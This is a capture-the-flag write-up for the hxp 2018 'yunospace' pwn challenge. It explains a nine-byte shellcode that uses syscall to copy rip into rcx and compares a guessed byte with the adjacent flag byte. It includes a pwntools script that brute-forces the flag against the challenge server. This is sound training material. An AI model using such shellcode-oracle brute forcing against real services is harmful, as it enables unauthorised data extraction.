 # yunospace hxp2018
> December 8 | pwn | 150 + bonus points | by kirschju

> Writeup author: big_J

### Overview
We are given a wrapper.py file, and a yunospace executable. When the wrapper is run, it asks for an index of the flag, then send that single byte to the yunospace binary in as an argument, then it asks for shellcode. If we take a look in at the binary, it looks like there is a lot going on:

![](https://gitlab.com/b1g_J/yunospace/raw/master/img/ida.png)

There is really two things going on here. First it makes sure the argument is actually one byte. Then it makes two pages. When we are prompted for shellcode it reads nine bytes, which writes it into one of the pages then it sets the space before our shellcode with the opcodes for `xor eax, eax` and it sets the byte right after our shellcode to the byte from the flag. So this page this we wrote into is bassically:

```
xor eax, eax
<our 9 bytes of shellcode>
<the byte from the flag>
```

After this, it does some operations that Ida was not able to understand. It clears all the registers except rip and rsi, sets rsp to the empty page, then jumps to the page with our shellcode. This is the state when we jump to the page:

![](https://gitlab.com/b1g_J/yunospace/raw/master/img/gdb.png)

So we have nine bytes of shellcode to figure out what the byte after our shellcode is. There are two ways of doing this. We could try to write that byte to stdout, or we could try to guess what it is and have the program crash if our guess is wrong. I went with the latter.

### Solution

So we have nine bytes of shellcode, the address of the page we are currently in in `rip`, and the empty page in `rsp`. The biggest problem to overcome is figuring out how to get the value of `rip` into another register in as few bytes as possible. A fun trick is to just do a syscall. We don't actually care what that syscall does, as long as the program does not crash. Syscalls usually shift the registers around a bit, and it only costs us two bytes. It just so happens that if we start our shellcode with a syscall, then the value `rip` gets copied into `rcx`. This only costs two bytes! Then we can use this value in `rcx` to compare our guessed byte value with the byte value from the flag. Then `jmp` back two if that is true. That will create an infinite loop if the character you guessed is correct, and will crash if our guess is wrong. With this we can slowly, but surely brute force out all the characters of the flag!

This was the shellcode I ended up using:

```
syscall                          # trick to get rip into rcx
cmp byte ptr [rcx + 7], <guess>; # compare the guessed char with flag char
jz $-2                           # infinite loop if last instruction true
```

and the solve:

```python
#!/usr/bin/python
from pwn import *
from string import printable

'''
syscall;
cmp byte ptr [rcx + 7], 0xff;
jz $-2;
'''

context.log_level='warn'
context.terminal='/usr/bin/zsh'

shellcode="\x0F\x05\x80\x79\x07{}\x74\xFE"


def check(char, index):
    p=remote('195.201.127.119', 8664)
    p.recvuntil('?')
    p.sendline(str(index))
    p.recvline()
    time.sleep(0.2)
    p.sendline(shellcode.format(char).ljust(9, ' '))
    time.sleep(0.4)
    if p.connected():
        p.close()
        return True
    p.close()
    return False


flag='hxp{'
for i in range(len(flag),58):
    for k in printable:
        if check(k, i):
            flag+=k
            print(flag)
            break
    else:
        print('ERROR')
        break


```
